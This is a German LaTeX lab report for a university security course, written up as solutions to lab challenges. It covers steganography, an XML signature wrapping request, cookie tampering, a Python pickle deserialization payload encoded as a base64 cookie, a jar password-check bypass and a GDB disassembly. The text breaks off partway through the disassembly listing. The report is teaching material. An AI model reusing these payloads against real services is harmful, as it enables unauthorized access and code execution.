\documentclass[12pt]{article}
\usepackage{color}
\usepackage{listings}

\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage[ngerman]{babel}
\usepackage{amsmath}
\usepackage{graphicx}
\usepackage{color, listings}

\title{Advanced Internet Security}
\author{
	Lab 1 Ausarbeitung\\
	\\
	\\
	Peter Fr\"uhwirt, 0725673  \\
	Christoph Hochreiner, 0726292 \\
	Felix Rinker, 0726724 \\
	\\
	\\
	Sommersemester 2011
}
\date{\today}

\begin{document}

\maketitle

\newpage
\tableofcontents
\newpage
\listoffigures

\lstlistoflistings
\newpage

\section{Geheime Informationen}

\subsection{Prolog}

Um an die Passphrase für das verschlüsselte WLAN zu gelangen wurden die im Prologtext gelieferten Informationen (Ferrari, Pizza, Städtereisen nach Italien) analysiert. Als erstes kristallisierte sich herraus, dass im Kontext Italien zu suchen war. Nachdem mehrfachen herumprobieren stellte sich die Kombination Ferrari und Stadt als zieleführend herraus, so dass \textit{Maranello} (Firmensitz von Ferrari\footnote{http://en.wikipedia.org/wiki/Ferrari}) sich im Endeffekt als die gesuchte Passphase herrausstellte.

\paragraph{Lösung}
\begin{itemize}
	\item Wie heißt die Passphrase für das verschlüsselte WLAN? \\
		Das  Passphrase für das verschlüsselte WLAN lautet \textit{Maranello}.
\end{itemize}


\subsection{Steganographie}
Mit Hilfe des Tools Wireshark\footnote{http://www.wireshark.org/} haben wir das über den Server gelandene WLAN-Dump geöffnet. Über die Einstellungen (File > Preferences > Protocols > IEEE 802.11) konnten wir das WLAN Passphrase aus der vorherigen Übung definieren (Abbildung \ref{stegConfig}) und damit das WLAN-Dump entschlüsseln. Nun war es uns möglich den WLAN Dump zu analysieren und erkannten eine Komminikation über das SMTP Protokoll. Über Wireshark konnten wir den TCP Stream verfolgen und die E-Mail komplett rekonstruktuieren (Abbildung \ref{stegMail}).
 \begin{figure}
  \begin{center}
    
\includegraphics[scale=0.3]{images/stegConfig.png}
  \end{center}
  \caption{Einstellungen von Wireshark zur Entschlüsselung des WLAN-Dumps}
  \label{stegConfig}
\end{figure}
 \begin{figure}
  \begin{center}
    
\includegraphics[scale=0.3]{images/stegMail.png}
  \end{center}
  \caption{Rekonstruktuierte E-Mail mit Hilfe von Wireshark}
  \label{stegMail}
\end{figure}
Die E-Mail beinhaltet jediglich ein Bild von einem Vogel. Da wir wussten, dass Informationen über diese E-Mail ausgetauscht wurden, begannen wir mit einer steganographischen Analyse des Bildes. Im ersten Schritt haben wir über die im Bild angegebene URL uns das Originalbild geladen. Ein Vergleich auf Änderungen zwischen Original und zu untersuchendem Bild war auf Grund des Formates und der Verkleinerung nicht möglich. Über das Tool XStegSecret\footnote{http://stegsecret.sourceforge.net/} konnten wir über eine Visual Attack auf LSB-0 Ebene im Direktvergleich mit dem Original feststellen, dass das Bild im linken oberen Bereich manipuluiert wurde. Auf anderen Ebenen konnten wir keine Änderungen feststellen, daher haben wir ein kleines Tool geschrieben, welches uns jeweils das LSB von jedem Byte im Bild ausgibt. Die ersten 54 byte sind im bmp-Format\footnote{http://en.wikipedia.org/wiki/BMP\_file\_format} ein Dateiheader, daher haben wir diese byte ignoriert.
\begin{figure}
\begin{lstlisting}[language=Java,caption={Java-Programm zur Ausgabe des versteckten Textes},label=stegTool,basicstyle=\footnotesize]
public class Main {
    public static void main(String[] args) 
                                  throws Exception {
        InputStream inputStream= 
             new FileInputStream("Vogel.bmp");
        for(int i=0; i<54; i++) {
            inputStream.read();
        }

        while(true) {
            int i = inputStream.read();
            if(i == -1) {
                return;
            }

            String s = Integer.toBinaryString(i);
            String o = s.substring(s.length()-1);
            System.out.print(o);
        }
    }
}
\end{lstlisting}
\end{figure}
 \begin{figure}
  \begin{center}
    
\includegraphics[scale=0.6]{images/stegResult.png}
  \end{center}
  \caption{Dekodierter Binärstring}
  \label{stegResult}
\end{figure}
Das nachfolgende Java-Programm (Listing \ref{stegTool}) liest das jeweils letzte bit des Bild-Inhaltes aus und gibt es auf der Konsole aus. Der ausgegebene Binärstring konnte über ein Onlinetool\footnote{http://home2.paulschou.net/tools/xlate/} dekodiert werden (Abbildung \ref{stegResult}): \textit{42;Protein 604824}. 

\paragraph{Lösung}
\begin{itemize}
	\item Welches Produkt wurde bei der Firma Terbium bestellt?\\
		Es wurde das Produkt \textit{Protein 604824} in einer Stückzahl von \textit{42} bestellt.
\end{itemize}

\subsection{Signierte Anfrage}
Der in der Aufgabenstellung beschriebene Service, für den als Hinweis die  Adresse: http://192.168.30.201:8080/secure\_service/index.html angegeben ist, wurde durch einen Portforward (8080) über den SSH-Tunnel zur Übungsumgebung lokal zugänglich gemacht (Listing \ref{sigSSH}).\\
\begin{figure}
\begin{lstlisting}[language=sh,caption={SSH Tunnel für Port forward},label=sigSSH,basicstyle=\footnotesize]
/usr/bin/ssh -p 65535 -l 0725673 -N 
  -o ConnectTimeout=5 
  -o TCPKeepAlive=yes 
  -o NumberOfPasswordPrompts=1 
  -o ControlMaster=no 
  -o PreferredAuthentications=password,keyboard-interactive 
  -L 8080:192.168.30.201:8080 sela.inso.tuwien.ac.at
\end{lstlisting}
\end{figure}
Der Name des Administrator, Fritz Buchner, war schnell über die Kontaktinformation am unteren Rand des Serviceinterfaces zu erkennen.\\
Nach mehrfachen Eingaben von Variationen des Demo-Requests zeichnete sich ab, in wie weit die Eingabe verändert werden kann um vom Service als valid erkannt zu werden. Zusätzliche Versuche die Signatur und den DigestValue zu analysieren und zu reproduzieren waren nicht zielführend. Im Endeffekt stellte sich herraus, dass eine mehrfache Verwendung des <Person> - Elements möglich war, wobei das erst gereihte Element für die Abfrage der gewünschten Daten, das zweite für die Validierung der Signatur etc. hergenommen wurde. Somit bekamen wir die gewünschten Informationen mit folgendem Request (Listing \ref{sigXML}). 
\begin{figure}
\begin{lstlisting}[language=sh,caption={Manipulierte signierte Anfrage},label=sigXML,basicstyle=\tiny]
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<request xmlns="http://security.inso.tuwien.ac.at/advinetsec-ss2010/secure-service">
<person>
 <name>Buchner</name>
 <firstname>Fritz</firstname>
</person>
<person id="person">
 <name>Thomas</name>
 <firstname>Maier</firstname>
</person>
<Signature xmlns="http://www.w3.org/2000/09/xmldsig#">
  <SignedInfo>
    <CanonicalizationMethod 
         Algorithm="http://www.w3.org/TR/2001/REC-xml-c14n-20010315#WithComments"/>
    <SignatureMethod Algorithm="http://www.w3.org/2000/09/xmldsig#rsa-sha1"/>
    <Reference URI="#person">
       <Transforms>
            <Transform Algorithm="http://www.w3.org/2000/09/xmldsig#enveloped-signature"/>
         </Transforms>
         <DigestMethod Algorithm="http://www.w3.org/2000/09/xmldsig#sha1"/>
         <DigestValue>qDZVh0yCe44M2swWXtH1ccBVhU4=</DigestValue>
     </Reference>
  </SignedInfo>
  <SignatureValue>
g6SpLIVdEJgxe9vNMHiSUyHl6pv7dP10EgvfD70yrz21iiZtSKoy2hbfoMyptq5b0WLHSCwVNco9
aqm3pPYWMqkN5JwW1n8dHtbf0998qvCor9CVM88dOAkzE3bW6mOxSPt5xy3UZ6B7u1FO9uVMxkyw
+UnTJoEHLKrxhPtgAS4OB6gYU8XoKCJmuyve21+uY0OKNLurWhfe9HLXTTR9HF3iH7KPn4NVqoYK
T20zx1MFhrHutrR4UF92ZrtM1GMyygI0chrT+WtEkLOeBbCEV4Ez9qRRsGGqO7A16V88CBPn+bPw
+yE5C6zWxGkZOSxUqzvCbnO4Dn6ZgzH1FTJj0Q==</SignatureValue>
</Signature>
</request>
\end{lstlisting}
\end{figure}
 \begin{figure}
  \begin{center}
    
\includegraphics[scale=0.25]{images/sigIn.png}
  \end{center}
  \caption{Eingabe der manipulierten Anfrage}
  \label{sigIn}
\end{figure}
Der Server überprüft zwar, ob der XML-Input valid ist, das Schema dürfte aber fehlerhaft sein, da nicht erkannt wird, dass zwei Personen-Tags vorhanden sind. Die Signatur bleibt valide, da sie auf das unveränderte Person-Tag verweist. 
 \begin{figure}
  \begin{center}
    
\includegraphics[scale=0.25]{images/sigOut.png}
  \end{center}
  \caption{Ausgabe der manipulierten Anfrage}
  \label{sigOut}
\end{figure}
Nach Eingabe der manipulierten signierten Anfrage (Abbildung \ref{sigIn}) erlangten wir die Zugangsdaten des Administrators (Abbildung \ref{sigOut}).

\paragraph{Lösung}
\begin{itemize}
	\item Wie lautet das Passwort des Administrators? \\
		Die Zugangsdaten des Administrators Fritz Buchner lautet \textit{secret\_phrase}.
\end{itemize}

\newpage
\section{Strang 1 - Das geheime Labor}

\subsection{VPN}

TODO: BULLSHIT powered by Hochi

\subsection{Single Sign On}

Nach einem erfolgreichen Login mit dem Account "simpleVpn" haben wir ziemlich schnell festgestellt, dass die Login-Informationen im Cookie mit dem Schlüssel "token" gespeichert werden. Über die Firefox-Erweiterungen FireCookie\footnote{https://addons.mozilla.org/en-US/firefox/addon/firecookie/} konnten wir das Cookie erfolgreich manipulieren und den Benutzernamen von "simpleVpn" auf "admin" ändern. Durch diese Manipulation war es für uns möglich auf einen weiteren Service zuzugreifen. \\
Über die vorgefunden Dokumente und Artefakte bekamen wir einen Einblick in die Architektur und konnten sie uns lokal nachbauen. \\
Nach einer genaueren Betrachtung haben wir erkannt, dass der zweite Teil des Cookies mit Hilfe von base64 verschlüsselt wurde. Nach einer Entschlüsselung stellten wir fest, dass ein - von cPickle serialisiertes Objekt - übergeben wurde. Nach einer Internetsuche\footnote{http://nadiana.com/python-pickle-insecure} konnten wir feststellen, dass es über einen manipulierten Input es möglich ist, beliebigen Code auszuführen. Durch ein fehlerhaftes Cookie konnten wir im DocumentService einen Type-Error auslösen und konnten über den Stacktrace sehen, dass cPickles.load() mit dem Cookie-Token ausgeführt wird. Über diese Schwachstelle haben wir versucht die Anwendung anzugreifen.\\
Nach mehreren Versuchen gelang es uns den passenden Code für die Ausgabe des Schlüssels zu finden (welcher auch vom Server akzeptiert wird ;), Listing \ref{ssoPrint}). 
\begin{lstlisting}[caption={Ausgabe von \_\_KEY\_\_ mit Hilfe von print},label=ssoPrint]
c__builtin__
print
(ccommon.ssoData
__KEY__
tR.
\end{lstlisting}



Der angegebene Code führt die folgenden internen pickle-Befehle aus (Listing \ref{ssoEPrint}). 
\begin{lstlisting}[caption={Erklärung des pickle-Codes},label=ssoEPrint]
c    GLOBAL     '__buildin__ print'
(    MARK
c        GLOBAL    'common ssoData __KEY__'
t        TUPLE      
R    REDUCE
.    STOP
\end{lstlisting}

Wir haben erkannt, dass der Server erwartet, dass ein Objekt der Klasse EncDataHolder erwartet, daher haben wir folgenden zusammengesetzten Code verwendet (Listing \ref{ssofPrint}).
\begin{lstlisting}[caption={Vollständiger Code zur Ausgabe von \_\_KEY\_\_ mit Hilfe von print},label=ssofPrint]
c__builtin__
print
(ccommon.ssoData
__KEY__
tRccopy_reg
_reconstructor
p1
(ccommon.ssoData
EncDataHolder
p2
ccommon.ssoData
object
p3
NtRp4
(dp5
S'timestamp'
p6
F1306488912.4643281
sS'data'
p7
S'j\x86\xe6\x8fp\x94\x1bP'
p8
sb.
\end{lstlisting}
Über eine Kodierung mit base64 konnten wir ein Cookie (Listing \ref{ssoCookie}) erstellen, welches uns den geheimen Schlüssel im Browser vor der Fehlermeldung ausgibt (Abbildung \ref{ssoResult}).
\begin{lstlisting}[caption={Cookie mit print-Ausgabe},label=ssoCookie]
admin:Y19fYnVpbHRpbl9fCnByaW50CihjY29tbW9uLnNzb0RhdGEKX19
LRVlfXwp0UmNjb3B5X3JlZwpfcmVjb25zdHJ1Y3RvcgpwMQooY2NvbW
1vbi5zc29EYXRhCkVuY0RhdGFIb2xkZXIKcDIKY2NvbW1vbi5zc29EYXR
hCm9iamVjdApwMwpOdFJwNAooZHA1ClMndGltZXN0YW1wJwpwNgp
GMTMwNjQ4ODkxMi40NjQzMjgxCnNTJ2RhdGEnCnA3ClMnalx4ODZc
eGU2XHg4ZnBceDk0XHgxYlAnCnA4CnNiLg==
\end{lstlisting}
 \begin{figure}
  \begin{center}
    
\includegraphics[scale=0.25]{images/ssoResult.png}
  \end{center}
  \caption{Ausgabe des Schlüssels im Browser}
  \label{sigIn}
\end{figure}

Mit Hilfe der zuvor erlangten Artefakte konnte wir uns lokal ein EncDataHolder nachbauen und erstellten uns mit dem geheimen Schlüssel nun eine Instanz der Klasse EncDataHolder, welche wir dann mit cPickle serialisierten und als Cookie (Listing \ref{ssoCookie2} verwendeen. Dadurch konnten wir in den secureService als Admin eindringen. 
\begin{lstlisting}[caption={Cookie mit korrektem geheimen Schlüssel},label=ssoCookie2]
admin:Y2NvcHlfcmVnCl9yZWNvbnN0cnVjdG9yCnAxCihjY29tbW9uLn
Nzb0RhdGEKRW5jRGF0YUhvbGRlcgpwMgpjX19idWlsdGluX18Kb2JqZW
N0CnAzCk50UnA0CihkcDUKUyd0aW1lc3RhbXAnCnA2CkYxMzA2NDk
3MjMxLjI4NTYzNjkKc1MnZGF0YScKcDcKUydfXHg5M1x4ODRceGE2XH
g4MEJceGVlKicKcDgKc2Iu
\end{lstlisting}

\paragraph{Lösung}
\begin{itemize}
	\item Wie lautet der gemeinsame geheime Schlüssel der Services? \\
		Der gemeinsame Schlüssel lautet \textit{BAR!)")!kL13XYT}.
	\item Wie lautet der Name der Tagebuchdatei (inkl. Erweiterung)?\\
		Die Tagebuchdatei hat den Namen \textit{tjuCzreifd.txt}.
\end{itemize}

\subsection{Secure Container}
Mit Hilfe des Tools JD-GUI\footnote{http://java.decompiler.free.fr/?q=jdgui} konnten wir den Source-Code des jars relativ schnell dekompilieren und in ein IDE importieren. Nach einer kurzen Studie des Codes konnten wir sehr schnell feststellen, dass nach der Ausführung des Inputs "load [...]" der Container bereits entschlüsselt wird. Nach der Eingabe des Passworts wird überprüft, ob dieses Passwort mit dem richtigen Passwort übereinstimmt. Dies geschieht in der Methode Container.hasAccess(). Wir haben den Java-Code so geändert, dass die Methode immer true zurückliefert, egal bei welcher Eingabe. Mit diesem kleinen Trick war es uns möglich die Datei zu entschlüsseln und die Zugangsdaten auszulesen. \\
 \\
Druckerpassword 4789\\
Zugangsdaten Büro 789324587\\
Zugangsdaten Labor 84920130

\paragraph{Lösung}
\begin{itemize}
	\item Wie lauten die Zugangscodes zum Labor?\\
		Die Zugangsdaten lauten \textit{84920130}.
\end{itemize}

\newpage
\section{Strang 2 - Die dunklen Machenschaften}

\subsection{Kryptographie}

TODO: CREATE TEXT INSTEAD OF "WE USED TOOL" 

\subsection{Binary-Analyse}
Um die Verschlüsselung genauer untersuchen zu können, mussten wir vorher das Programm in Assembler-Code entschlüsseln. Unser erster Ansatz war mittels GDB und dem Befehl "disassemble main". In der Ausgabe erkannten wir, dass eine Methode "encryptCharacter" in einer Schleife ausgeführt wird. Unsere erste Vermutung, welche sich auch als richtig herausgestellt hat, war, dass Zeichenweise von stdin eingelesen und verschlüsselt wird. Aus diesem Grund haben wir uns die Methode "encryptCharacter" mit dem Befehl "disassemble encryptCharacter" in GDB genauer angesehen (Listing \ref{binEnc}). 
\begin{lstlisting}[caption={Assembler-Code der Methode encryptCharacter},label=binEnc,basicstyle=\footnotesize]
(gdb) disassemble encryptCharacter
Dump of assembler code for function encryptCharacter:
0x100000d70 <encryptCharacter+0>:	push   %rbp
0x100000d71 <encryptCharacter+1>:	mov    %rsp,%rbp
0x100000d74 <encryptCharacter+4>:	mov    %edi,-0x4(%rbp)
0x100000d77 <encryptCharacter+7>:	mov    -0x4(%rbp),%eax
0x100000d7a <encryptCharacter+10>:	mov    -0x4(%rbp),%edx
0x100000d7d <encryptCharacter+13>:	add    %eax,%edx
0x100000d7f <encryptCharacter+15>:	mov    -0x4(%rbp),%eax
0x100000d82 <encryptCharacter+18>:	shr    $0x7,%eax
0x100000d85 <encryptCharacter+21>:	shl    $0x8,%eax
0x100000d88 <encryptCharacter+24>:	sub    %eax,%edx
0x100000d8a <encryptCharacter+26>:	mov    -0x4(%rbp),%eax
